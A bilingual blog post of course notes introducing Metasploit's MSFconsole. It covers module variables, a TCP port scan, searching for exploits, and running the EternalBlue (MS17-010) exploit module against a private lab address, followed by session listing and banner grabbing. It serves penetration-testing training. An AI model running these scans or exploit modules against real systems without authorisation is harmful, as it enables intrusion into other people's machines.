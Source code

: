 ```yaml
---
layout: post
title: "MSFconsole Fundamentals"
date: "2022-11-25"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - The Metasploit Framework (MSF)
---
```


# MSFconsole Fundamentals
## MSFconsole Fundamentals
Before we can start using the Metasploit Framework for penetration testing, we need to get an understanding of how to use MSFconsole.

The Metasploit Framework Console (MSFconsole) is an easy-to-use all in one interface that provides you with access to all the functionality of the Metasploit Framework.

We will be utilizing MSFconsole as our primary MSF interface for the rest of the course.

# MSF 控制台基础知识
## MSF 控制台基础知识
在开始使用 Metasploit Framework 进行渗透测试之前，我们需要了解如何使用 MSFconsole。

Metasploit Framework Console (MSFconsole) 是一个易于使用的一体化界面，可让您访问 Metasploit Framework 的所有功能。

在本课程的其余部分，我们将使用 MSFconsole 作为主要的 MSF 界面。

## What You Need To Know
1. How to search for modules.
2. How to select modules.
3. How to configure module options & variables.
4. How to search for payloads.
5. Managing sessions.
6. Additional functionality.
7. Saving your configuration.

## 你需要知道什么
1. 如何搜索模块。
2. 如何选择模块。
3. 如何配置模块选项和变量。
4. 如何搜索有效负载。
5. 管理会话。
6. 附加功能。
7. 保存您的配置。

## MSF Module Variables
MSF modules will typically require information like the target & host IP address and port in order to initiate a remote exploit/connection.

These options can be configured through the use of MSF variables.

MSFconsole allows you to set both local variable values or global variable values.

|Variable|Purpose|
|---|---|
|LHOST|This variable is used to store the IP address of the attacker's system.|
|LPORT|This variable is used to store the port number on the attacker's system that will be used to receive a reverse connection.|
|RHOST|This variable is used to store the IP address of the target system/server.|
|RHOSTS|This variable is used to specify the IP addresses of multiple target systems or network ranges.|
|RPORT|This variable stores the port number that we are targeting on the target system.|


## MSF 模块变量
MSF 模块通常需要目标和主机 IP 地址和端口等信息才能启动远程利用/连接。

这些选项可以通过使用 MSF 变量进行配置。

MSFconsole 允许您设置局部变量值或全局变量值。

|变量|用途|
|---|---|
|LHOST|这个变量用来存放攻击者系统的IP地址。|
|LPORT|该变量用于存储攻击者系统上用于接收反向连接的端口号。|
|RHOST|该变量用于存储目标系统/服务器的 IP 地址。|
|RHOSTS|此变量用于指定多个目标系统或网络范围的 IP 地址。|
|RPORT|该变量存储我们在目标系统上定位的端口号。|

# Demo: MSFconsole Fundamentals（演示：MSFconsole 基础知识）
```
msf6 > help
msf6 > version 
msf6 > show all
msf6 > show exploits 
msf6 > show -h 
```

```
msf6 > search portscan
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > shows options
msf6 auxiliary(scanner/portscan/tcp)> set RHOSTS 192.168.2.1
msf6 auxiliary(scanner/portscan/tcp)> set PORTS 1-1000
msf6 auxiliary(scanner/portscan/tcp)> show options
msf6 auxiliary(scanner/portscan/tcp)> run 
msf6 auxiliary(scanner/portscan/tcp)> back 
```

```
msf6 > search -h
msf6 > search cve:2017 type:exploit platform:-windows # except Windows
msf6 > search cve:2017 type:exploit platform:windows
```

```
msf6 > search eternalblue
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.2.1
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
msf6 exploit(windows/smb/ms17_010_eternalblue) > back
```

```
msf6 > sessions 
```

Banner grabbing.

```
msf6 > connect -h
msf6 > connect 192.168.2.1 80
```




